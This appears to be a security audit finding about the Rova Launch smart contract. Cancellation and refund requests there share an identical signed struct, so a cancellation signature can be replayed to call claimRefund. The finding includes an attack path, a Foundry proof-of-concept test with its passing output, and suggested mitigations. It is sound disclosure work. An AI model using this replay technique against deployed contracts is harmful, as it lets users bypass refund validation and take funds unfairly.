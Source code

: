 Pet Navy Osprey

Medium

# Users can claim refund by using the signature requested for CancelParticipationRequest

### Summary

Same structure between type `CancelParticipationRequest` and `ClaimRefundRequest` can allow an user to use the requested `CancelParticipationRequest` signature to claim refund given the expiration is long enough

### Root Cause

The type `CancelParticipationRequest` and `ClaimRefundRequest` have the same structure. So, if signature verification for `CancelParticipationRequest` passes, then it also passes for `ClaimRefundRequest` and vice versa. This is because both function [`cancelParticipation()`](https://github.com/dpm-labs/rova-contracts/blob/b03e4ede50488a2000bb73d602e28ee4f6c0941f/src/Launch.sol#L420) and [`claimRefund()`](https://github.com/dpm-labs/rova-contracts/blob/b03e4ede50488a2000bb73d602e28ee4f6c0941f/src/Launch.sol#L478) verifies the same signature structure
```solidity
struct CancelParticipationRequest {
    uint256 chainId;
    bytes32 launchId;
    bytes32 launchGroupId;
    bytes32 launchParticipationId;
    bytes32 userId;
    address userAddress;
    uint256 requestExpiresAt;
}

struct ClaimRefundRequest {
    uint256 chainId;
    bytes32 launchId;
    bytes32 launchGroupId;
    bytes32 launchParticipationId;
    bytes32 userId;
    address userAddress;
    uint256 requestExpiresAt;
}
```

Here the problem arises with the scenario that if the cancellation request deadline `requestExpiresAt` provided by the system is long enough such that it does not expires when the launch group is in COMPLETED status, the same signature given by cancellation request can be used to claim refund.

Note: System backend can provide the cancel request with a long period of expiration because the cancel request can become invalid when the launch group is in Completed status. This makes the described scenario more likely to happen.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. When launch group is 30 mins before ending, an user requests to cancel the participation and the system provides signature with deadline period = 1 hour, meaning that `requestExpiresAt = block.timestamp + 1 hour`. Note that the user only request, but not execute the function `cancelParticipation()`
2. When the launch group ends (30 mins since step 1), the group status is transitioned to Completed by the Manager
3. The user above calls `claimRefund()` with the data and signature provided by system at step 1.

### Impact

- Users can bypass the request validation of the claim refund request
- Users can claim refund earlier, which can be unfair


### PoC

Update the test file `test/Launch.CancelParticipation.t.sol` as below
```solidity
...
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    ParticipationInfo,
    CancelParticipationRequest,
    ClaimRefundRequest /// <<-- import this struct
} from "../src/Types.sol";
...
contract LaunchCancelParticipationTest is Test, Launch, LaunchTestBase {
    /// ....

    function test_SameSignature() public { /// <<-- Add this test
      // 0.5 hours before end
      vm.warp(settings.endsAt - 0.5 hours);

      // request will expire in 1 hour
      CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
      bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

      vm.warp(settings.endsAt + 1);

      vm.startPrank(manager);
      launch.setLaunchGroupStatus(testLaunchGroupId, LaunchGroupStatus.COMPLETED);

      vm.startPrank(user1);

      // same data as the cancel request
      ClaimRefundRequest memory claimRequest = ClaimRefundRequest(
        cancelRequest.chainId,
        cancelRequest.launchId,
        cancelRequest.launchGroupId,
        cancelRequest.launchParticipationId,
        cancelRequest.userId,
        cancelRequest.userAddress,
        cancelRequest.requestExpiresAt
      );

      launch.claimRefund(claimRequest, cancelSignature); /// <<-- this does not revert
    }
```
Run the test and it passed
```bash
Ran 1 test for test/Launch.CancelParticipation.t.sol:LaunchCancelParticipationTest
[PASS] test_SameSignature() (gas: 87774)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.73ms (1.33ms CPU time)
```


### Mitigation

Either handle by backend to provide request's deadline properly, or update the structs to differentiate 2 types of request